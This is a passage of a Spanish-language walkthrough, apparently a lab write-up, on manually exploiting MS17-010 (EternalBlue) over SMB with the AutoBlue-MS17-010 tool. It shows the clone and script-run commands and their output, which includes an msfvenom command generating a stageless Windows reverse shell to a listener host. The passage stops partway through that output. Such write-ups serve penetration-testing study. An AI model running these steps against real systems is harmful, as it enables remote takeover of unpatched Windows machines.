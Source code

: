 ### Explotación manual - SMB - **AutoBlue-MS17-010**

Para realizar la explotación manual, emplearemos el exploit disponible en el repositorio  → [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)

Así que primero clonaremos el repositorio en nuestro sistema.

```bash
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
```

Nos movemos al repositorio clonado.

```bash
cd AutoBlue-MS17-010
```

Navegamos hasta el directorio `shellcode` y ejecutamos el comando:

```bash
./shell_prep.sh
```

Este script nos brinda la posibilidad de adaptar nuestros payloads a las arquitecturas x64 y x86 de acuerdo a nuestras requerimientos específicos. Los parámetros de configuración son los siguientes:

- `LHOST` → para especificar la dirección IP del host local para conectarse
- `LPORT` → para especificar el puerto en escucha del host local, tanto para arquitectura x64 y x86.
- `Type` → para especificar un payload por etapas o sin etapas. En este caso utilizaremos un payload sin etapas para poder recibir la conexión con `netcat`.

```bash
❯ ./shell_prep.sh
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz

Compiling x64 kernel shellcode
Compiling x86 kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
y
LHOST for reverse connection:
10.2.11.100
LPORT you want x64 to listen on:
80
LPORT you want x86 to listen on:
443
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
1
Type 0 to generate a staged payload or 1 to generate a stageless payload
1
Generating x64 cmd shell (stageless)...

msfvenom -p windows/x64/shell_reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=10.2.11.100 LPORT=80
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Saved as: sc_x64_msf.bin

Generating x86 cmd shell (stageless)...

```